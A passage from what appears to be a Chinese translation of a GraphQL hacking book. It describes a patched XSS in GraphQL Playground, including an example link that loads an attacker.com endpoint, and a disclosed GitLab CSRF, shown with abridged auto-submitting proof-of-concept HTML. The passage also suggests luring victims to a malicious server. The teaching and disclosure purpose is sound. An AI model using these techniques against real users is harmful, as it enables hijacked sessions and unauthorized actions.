这个漏洞与本章之前讨论的漏洞有所不同。首先，它直接影响 API 消费者，因为成功的利用会在他们的浏览器中执行。其次，攻击者可以通过两种方式利用这个漏洞：

+   通过入侵一个 GraphQL 服务器并修改其模式以包含危险字符。

+   通过构建一个包含恶意负载实现的自定义 GraphQL 服务器。攻击者可以通过向受害者发送一个链接，诱使他们加载带有恶意服务器地址的 GraphQL Playground —— 例如，*http://blackhatgraphql.com/graphql?endpoint=http://attacker.com/graphql?query={__typename}*。如果受害者点击该链接，他们的浏览器将自动加载恶意 API，并代表他们执行一个查询，这会将负载注入正在其浏览器中运行的 Playground，并触发 XSS 攻击。

让我们探讨一下一个 GraphQL 服务器如何提供这些恶意负载。考虑以下来自 DVGA 的代码示例：

```
class **UserObject**(SQLAlchemyObjectType):
  class Meta:
    **name = "MyMaliciousTypeName"**
    model = User
```

这段代码表示 DVGA 的 `UserObject` 对象。开发者可以使用 `name` 变量将对象的名称重命名为自定义字符串，而如果攻击者已经入侵了服务器（或简单地托管了自己的版本），他们也可以做同样的事情。然后，这个名称将被渲染到 IDE 工具的文档部分中（图 10-6）。



图 10-6：在搜索中显示的恶意类型名称

当客户端打开 GraphQL Playground 查询 API 时，恶意的 JavaScript 负载将在他们的浏览器中渲染，在这种情况下，它会被注入到一个类型的名称中。

这个具体的漏洞存在于 Playground Node 包管理器（npm）包 *graphql-playground-react* 中。在 2021 年底，库的维护者采取了以下措施来修复这个漏洞：

+   确保所有 HTML 文本都被转义

+   确保类型名称符合 GraphQL 规范

+   如果文档部分包含危险字符，则避免加载该部分

+   确保用户生成的 HTML 被检查并变得安全

GraphQL IDEs 很流行，因此，如果你正在进行渗透测试并发现了旧版本的 GraphQL Playground，有可能它没有被修补，仍然容易受到这个 XSS 攻击。或者，你可以托管一个包含漏洞的 Playground 库的恶意 GraphQL 服务器，并诱使受害者访问它。

## 跨站请求伪造（GitLab）

在本书早些时候，我们介绍了如何识别允许基于 GET 的 GraphQL 查询的 API。现在，让我们看看黑客是如何滥用这个功能的。2021 年 3 月，黑客 az3z3l 向 GitLab 披露了一个 CSRF 漏洞（[`hackerone.com/reports/1122408`](https://hackerone.com/reports/1122408)）。

在通过 POST 方法处理 GraphQL 查询时，GitLab 使用了一个特殊的 `X-CSRF-Token` HTTP 头部来防止 CSRF 攻击。这个头部在每个请求或查询中包含一个唯一的令牌。

GET 请求通常不用于数据修改等操作，因此公司通常不会使用反 CSRF 令牌来保护它们。但由于 GitLab 支持使用 GET 查询，因此现有的 CSRF 保护机制没有应用于这些查询，尽管这些操作包括查询和 mutation，并且能够通过 API 执行更改。

道德黑客 az3z3l 提供了一个概念验证的 HTML 代码，利用了 CSRF 漏洞：

```
`--snip--`
<form action="https://gitlab.com/api/graphql/" id="csrf-form" method="GET"> ❶
<input name= ❷ "query" value="mutation CreateSnippet($input: CreateSnippetInput!) `--snip--`">
<input name= ❸ "variables" value='{"input":{"title":"Tesssst Snippet"} `--snip--`'>
</form>
`--snip--`
<script>document.getElementById("csrf-form").submit()</script> ❹
```

这段 HTML 代码定义了一个提交表单 ❶，其中包含两个输入项：`query` ❷，指定使用名为 `CreateSnippet` 的 mutation，和 `variables` ❸，其中包含通过输入类型传递的一些变量。代码在 ❹ 处使用 JavaScript 来代客户端提交表单，只要客户端加载包含该 HTML 页面的页面时。由于 API 没有检查 CSRF 保护头，因此这种操作是可能的。

漏洞利用中使用的 GraphQL mutation 如下：

```
mutation CreateSnippet($input: CreateSnippetInput!) {
  createSnippet(input: $input) {
    errors
    snippet {
      webUrl
      __typename
    }
 `--snip--`
  }
}
```

由于这个查询，客户端将以攻击者在 HTML 表单中包含的数据创建一个代码片段。这个 CSRF 漏洞可能让攻击者代表受害者执行敏感操作，比如访问他们的账户或数据。

## 总结

本章介绍了现实世界中漏洞和漏洞利用的公开披露。你了解了 GraphQL 实现中的某些设计选择如何造成漏洞，导致信息泄露、注入、授权问题等。我们还讨论了一些公司采取的缓解措施，以修补这些漏洞（如果可能的话）。

本书介绍了 GraphQL 查询 API 的新方法。正如你所学到的，这个框架有其独特的规则、优点和缺点。GraphQL 的设计引入了新的漏洞和安全挑战。与此同时，它仍然容易受到多年来存在的经典漏洞的影响。现在你已经知道如何在 GraphQL 中查找漏洞，我们建议你尝试在通过漏洞披露程序发布的 GraphQL 应用程序中寻找漏洞。谁知道呢，或许你还能赚上一两笔。
